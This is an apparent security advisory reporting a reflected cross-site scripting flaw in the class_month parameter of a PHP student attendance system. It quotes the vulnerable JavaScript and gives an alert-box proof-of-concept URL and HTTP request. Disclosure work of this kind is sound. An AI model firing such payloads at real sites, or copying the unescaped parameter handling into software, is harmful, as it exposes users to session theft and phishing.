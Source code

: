 ## Vulnerability Details

**Credits**: 
> Reigz Macolor (https://github.com/reigz/)<br/>

**Tested On**:
> [Simple Student Attendance System using PHP and MySQL 1.0](https://www.sourcecodester.com/php/17018/simple-student-attendance-system-using-php-and-mysql.html) <br/>

**Affected Version**:
> Simple Student Attendance System using PHP and MySQL 1.0

**Affected Site Page**: 
> /?page=attendance_report<br/>
> /?page=attendance_report&class_id=22&class_month=%22%3E%3Cscript%3Ealert(%27reigz%20was%20here%27)%3C/script%3E<br/>

**Affected Code**: 
> </attendance_report.php> <br/>

```javascript
<script>
    $(document).ready(function(){
        $('#class_id, #class_month').change(function(e){
            var class_id = $('#class_id').val()
            var class_month = $('#class_month').val()
            location.replace(`./?page=attendance_report&class_id=${class_id}&class_month=${class_month}`)
        })
    })
</script>  
```

**Related CWE:**
> [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)

## **Details:**
> Allows XSS by placing untrusted code on the parameter `class_month`.


```http 
GET /php-attendance/?page=attendance_report&class_id=22&class_month=%22%3E%3Cscript%3Ealert(%27reigz%20was%20here%27)%3C/script%3E HTTP/1.1
Host: localhost
```

![image](https://github.com/smurf-reigz/security/assets/48426940/d2cfc0f5-f1b7-4eaa-97af-02b013339425)


## **Vulnerability Impact:**
> Once the malicious script is injected, the attacker can perform a variety of malicious activities. The attacker could transfer private information, such as cookies that may include session information, from the victim's machine to the attacker. The attacker could send malicious requests to a web site on behalf of the victim, which could be especially dangerous to the site if the victim has administrator privileges to manage that site. Phishing attacks could be used to emulate trusted web sites and trick the victim into entering a password, allowing the attacker to compromise the victim's account on that web site. Finally, the script could exploit a vulnerability in the web browser itself possibly taking over the victim's machine, sometimes referred to as "drive-by hacking."

